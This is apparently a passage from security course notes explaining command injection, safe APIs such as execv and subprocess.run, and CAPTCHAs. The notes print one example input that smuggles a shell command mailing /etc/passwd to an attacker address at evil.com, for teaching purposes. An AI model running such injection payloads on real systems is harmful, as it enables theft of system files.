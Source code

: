 If the input for regex is

`regex = "'; mail mallory@evil.com < /etc/passwd; touch '"`

then the real parameter will be executed by `system` function is

`grep ''; mail mallory@evil.com < /etc/passwd; touch '' phonebook.txt`

This will cause the password file to be sent to `mallory@evil.com`.

##### Command injection defenses

1. **Input sanitization**
    - As before, this is hard to implement and difficult to get 100% correct.

3. **Use safe APIs**
    - In general, remember the KISS principle: Keep It Simple, Stupid.
    
    - For `system`, executing a shell to execute a command is too powerful!
        - Instead, use `execv`, which directly executes the program with arguments **without parsing**.
    
    - Most programming languages have safe APIs that should be use instead of parsing untrusted input
        - **system** (unsafe) and **execv** (safe) in C.
        
        - **os.system** (unsafe) and **subprocess.run** (safe) in Python.
        
        - **exec.Command** (safe) in Go.
            - Go only has the safe version!

#### CAPTCHAs

CAPTCHA stands for **Completely Automated Public Turing test to tell Computers and Humans Apart**. Sounds confusing? Just take a look at this picture,

![](https://silkrow3.files.wordpress.com/2023/01/image-1.png?w=884)

You definitely have met similar things before!

The goal of such tests is to prevent robots from easily accessing the website, who may perform spamming or other kinds of attacks.

A fun fact is that CAPTCHA results are sometimes used for machine learning training.

- Machine learning often requires manually-labeled datasets.

- CAPTCHAs crowdsource human power to help manually label these big datasets.

- Example: Machine vision problems require manually-labeled examples: “This is a stop sign”.

Here's a comic related to such usage :)

![](https://silkrow3.files.wordpress.com/2023/01/image-3.png?w=674)

While they're certain issues related to CAPTCHAs:

- Arms race: As computer algorithms get smarter, CAPTCHAs need to get harder

- Accessibility: As CAPTCHAs get harder, not all humans are able to solve them easily

- Ambiguity: CAPTCHAs might be so hard that the validator doesn’t know the solution either!
